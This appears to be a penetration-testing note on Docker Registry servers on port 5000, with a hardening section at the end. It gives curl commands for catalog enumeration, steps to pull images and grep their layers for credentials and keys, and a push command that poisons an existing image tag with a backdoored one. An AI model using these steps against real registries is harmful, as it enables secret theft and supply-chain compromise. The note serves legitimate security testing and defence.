

# 49 - Docker Registry (Port 5000) Pentesting

## 1. Executive Summary

A Docker Registry stores and distributes Docker images (named repositories, versioned by tags). The open-source registry defaults to **TCP 5000** and exposes the **Registry API v2**. When it requires no auth (or has weak creds), an attacker can **list every repository** (`/v2/_catalog`), pull images, and **mine the image layers for secrets** — source code, hardcoded credentials, API keys, private configs. With **push** rights you can poison images (supply-chain). nmap flags it as `Docker Registry (API: 2.0)`, but behind an HTTP proxy it may go undetected, so always probe `/v2/`.

## 2. Protocol Overview & Architecture

The Registry v2 API is plain HTTP(S). Key endpoints: `/v2/` (version probe), `/v2/_catalog` (list repos), `/v2/<repo>/tags/list` (tags), and the manifest/blob endpoints that return image layers. Registries run as **HTTP or HTTPS** — determine which first. Auth, when present, is HTTP Basic or token-based; a `UNAUTHORIZED` JSON error on `/v2/_catalog` means creds are needed (try defaults / brute).

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 5000 <IP>            # 'Docker Registry (API: 2.0)'

# HTTP or HTTPS? then list catalog
curl -s http://<IP>:5000/v2/_catalog
curl -s -k https://<IP>:5000/v2/_catalog
# With creds:
curl -s -u user:pass http://<IP>:5000/v2/_catalog

# Tags for a repo
curl -s http://<IP>:5000/v2/<repo>/tags/list
```
`{"errors":[{"code":"UNAUTHORIZED",...}]}` ⇒ authentication required.

## 4. Exploitation Deep Dive

### 4.1 Pull & Mine Images for Secrets
```bash
# trust an insecure registry, then pull
docker pull <IP>:5000/<repo>:<tag>
docker save <IP>:5000/<repo>:<tag> -o img.tar
# unpack layers and grep
mkdir x && tar -xf img.tar -C x
grep -rIE 'password|secret|api[_-]?key|token|BEGIN .*PRIVATE KEY' x/
```
Image history can also leak build-time secrets:
```bash
docker history --no-trunc <IP>:5000/<repo>:<tag>
```

### 4.2 Credential Brute Force
If Basic auth gates the catalog, brute the login (try defaults first), then proceed as above.

### 4.3 Push / Image Poisoning (supply chain)
With write access, push a backdoored image under an existing tag so deployments pull your version:
```bash
docker tag evil <IP>:5000/<repo>:<tag> && docker push <IP>:5000/<repo>:<tag>
```
(Authorized engagements only — this is a supply-chain action; document, get sign-off.)

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Secrets from layers → access DBs, cloud, CI.
- Source code disclosure → find more vulns.
- Poisoned image → RCE on every host that deploys it.

## 7. Defense & Hardening
1. Require authentication + TLS; disable anonymous catalog listing.
2. Scan images for embedded secrets; never bake creds into layers.
3. Sign images (Notation/cosign) and enforce signature verification on pull.
4. Firewall 5000 to CI/CD and admin hosts.

## 8. Chaining Opportunities
- Pull/push paired with **[[48 - Docker Engine API (Port 2375) Pentesting]]**.
- Leaked creds → databases, cloud (Cloud and Container Security).

## 9. Related Notes
- [[48 - Docker Engine API (Port 2375) Pentesting]]

## 10. Tools
`curl`, `docker pull/save/history`, image-secret scanners (trufflehog, dive), `nmap`.
